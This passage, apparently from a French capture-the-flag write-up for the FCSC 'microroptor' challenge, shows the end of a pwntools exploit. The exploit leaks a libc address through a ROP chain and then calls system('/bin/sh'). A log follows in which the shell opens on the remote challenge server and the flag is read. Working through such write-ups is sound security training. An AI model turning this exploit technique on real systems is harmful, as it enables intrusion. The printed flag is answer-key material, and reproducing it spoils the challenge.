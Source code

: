 ```py
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    rop += p64(exe.symbols["main"])
    r.sendline(rop)
    r.recvline()

    addr_puts = u64(r.recvline().strip().ljust(8, b"\x00"))
    info(f"puts @ {hex(addr_puts)}")
    libc.address = addr_puts - libc.symbols["puts"]
    info(f"libc @ {hex(libc.address)}")

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(next(libc.search(b"/bin/sh\x00")))
    rop += p64(libc.symbols["system"])
    r.sendline(rop)

    r.interactive()

if __name__ == "__main__":
    main()
```

On teste sur le challenge en ligne :
```
$ python3 exploit.py REMOTE
[*] exe @ 0x5f5bfcc75000
[*] puts @ 0x79b5c27385f0
[*] libc @ 0x79b5c26c2000
[*] Switching to interactive mode
0x5f5bfcc79010
Nope, you are no master.
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls -la
total 28
drwxr-xr-x 1 root root  4096 Apr 29 08:01 .
drwxr-xr-x 1 root root  4096 Apr 29 08:01 ..
-r-------- 1 ctf  ctf     71 Apr 29 08:01 flag
-r-x------ 1 ctf  ctf  14320 Apr 29 08:01 microroptor
$ cat flag
FCSC{e3752da07f2c9e3a0f9ad69679792e5a8d53ba717a2652e29fb975fcf36f9258}
$ exit
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2052
```

C'était la bonne version de la libc, nous obtenons donc le flag.
